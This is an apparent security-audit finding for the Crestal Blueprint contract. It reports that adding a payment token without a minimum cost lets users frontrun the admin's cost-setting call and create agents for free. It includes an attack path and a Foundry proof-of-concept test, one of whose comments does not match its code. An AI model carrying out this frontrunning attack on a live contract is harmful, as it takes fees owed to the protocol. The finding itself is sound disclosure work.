 Dancing Hotpink Tortoise

High

# users will be able to create agents with a 0 cost leading to lose of funds

### Summary

When adding a new Payment Address the function `addPaymentAddress()` do not enforce a minimum cost on the same transaction. This will allow users to frontrun the admin call to `setCreateAgentTokenCost()` and create agents with a cost of 0.

### Root Cause

In [Blueprint.sol#L46-L52](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Blueprint.sol#L46-L52) there is no minimum cost beeing set.
```Solidity
    function addPaymentAddress(address paymentAddress) public onlyOwner {
        require(paymentAddress != address(0), "Payment Address is invalid");
        paymentAddressesMp[PAYMENT_KEY].push(paymentAddress);
        paymentAddressEnableMp[paymentAddress] = true;

        emit PaymentAddressAdded(paymentAddress);
    }
```
Therefore, users can benefit from this by frontrunning the `setCreateAgentTokenCost()` and create new agents without paying a cost.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. Admin add a new payment token by calling `addPaymentAddress()` function
2. User frontrun admin call to `setCreateAgentTokenCost()` and call `createAgentWithToken()` to create a new agent with 0 cost.


### Impact

the protocol will lose funds as users will be able to create multiple agents without paying for their costs.

### PoC

```solidity
    function test_createAgentWithZeroCost() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";

        address bob = address(1);
        mockToken.mint(bob,10000);
        /*vm.prank(bob);
        mockToken.approve(address(blueprint),100);*/

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // Expect the createAgent event
        vm.expectEmit(true, false, true, true);
        emit BlueprintCore.CreateAgent(projectId, "fake", bob, 0, 0);

        // Create agent with token
        vm.prank(bob);
        blueprint.createAgentWithToken(
            projectId, base64Proposal, workerAddress, serverURL, address(mockToken)
        );

        // set zero cost for create agents, use any number less than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), 10);

        bytes32 latestProjId = blueprint.getLatestUserProjectID(bob);
        assertEq(projectId, latestProjId);
    }
```

### Mitigation

Force a minimum cost at the moment where the token is added.